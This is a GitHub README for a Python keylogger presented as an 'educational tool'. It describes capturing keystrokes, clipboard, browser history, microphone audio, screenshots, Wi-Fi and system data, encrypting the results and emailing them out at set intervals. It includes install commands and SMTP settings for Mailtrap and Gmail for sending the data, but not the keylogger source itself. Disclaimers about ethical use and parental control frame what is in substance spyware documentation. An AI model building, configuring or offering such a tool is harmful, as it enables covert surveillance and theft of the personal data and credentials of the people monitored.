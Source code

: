 # Multifunctional-Keylogger
 
# 🖥️ Python Keylogger – Educational Tool

> ⚠️ **DISCLAIMER**: This project is intended strictly for educational and ethical hacking purposes. Do not deploy or distribute without explicit permission from the device owner. Misuse may be illegal and punishable under cybersecurity laws.

## 💡 What It Does
This Python script is a multi-functional keylogger that collects various types of system and user input data and emails it at regular intervals.

## ✅ Features
- 🎹 Keystroke Logging (via pynput)
- 🖱️ Mouse Movement & Click Tracking
- 📋 Clipboard Capture
- 🔍 Active Window Logging
- 🌐 System Information Grabber
- 📶 Wi-Fi Information
- 📍 Geolocation Lookup
- 🧭 Chrome Browser History Extraction
- 📦 USB Devices Checker
- 🎤 Microphone Audio Recorder (10 seconds)
- 📸 Screenshot Capture (every 60s)
- 🔒 Log Encryption (Fernet)
- 📧 Email Reports (via SMTP)
- 🔁 Auto-Repeat with Threads

## 🧪 Installation

### 📦 Requirements
- Python 3.9+

Install all required modules automatically (already handled in code):
```bash
pip install pyscreenshot pynput sounddevice clipboard cryptography requests pywin32
```
Or install manually:
```bash
pip install -r requirements.txt
```

## ⚙️ Configuration
Edit these two lines in the script:
```python
EMAIL_ADDRESS = "your_mailtrap_or_smtp_email"
EMAIL_PASSWORD = "your_password_or_smtp_token"
SEND_REPORT_EVERY = 40  # interval in seconds
```

You must use a working SMTP server. This example uses Mailtrap for safe testing:
```python
with smtplib.SMTP("smtp.mailtrap.io", 2525) as server:
```

You can switch to Gmail SMTP like so:
```python
with smtplib.SMTP("smtp.gmail.com", 587) as server:
    server.starttls()
```
🧠 If using Gmail, you may need to generate an App Password.

## 🚀 Running the Keylogger
Run the script:
```bash
python keylogger.py
```

## 📥 Extracting Audio/Images from EML
If you're using Mailtrap or a similar service and want to extract attached WAV recordings from `.eml` files, use `file_extract.py` in the uploaded files section


## 📂 Files & Attachments
The script collects the following:
- Logs of keystrokes and mouse activity
- Clipboard contents
- Active window titles
- System info (hostname, IP, OS, etc.)
- Wi-Fi info
- USB devices info
- Chrome browser history (top 5)
- Microphone audio (sound.wav)
- Screenshots (screenshot.png)

All files are encrypted and emailed to you and optionally auto-deleted afterward.

## 🛡️ Legal Warning
This script should never be used for spying, stalking, or stealing personal information. Use it in your own environment, for:
- Security testing
- Parental control
- Keyboard input analytics
- Ethical hacking training

## 🙋‍♂️ Author
Built with passion by an ethical hacker for practice & learning.
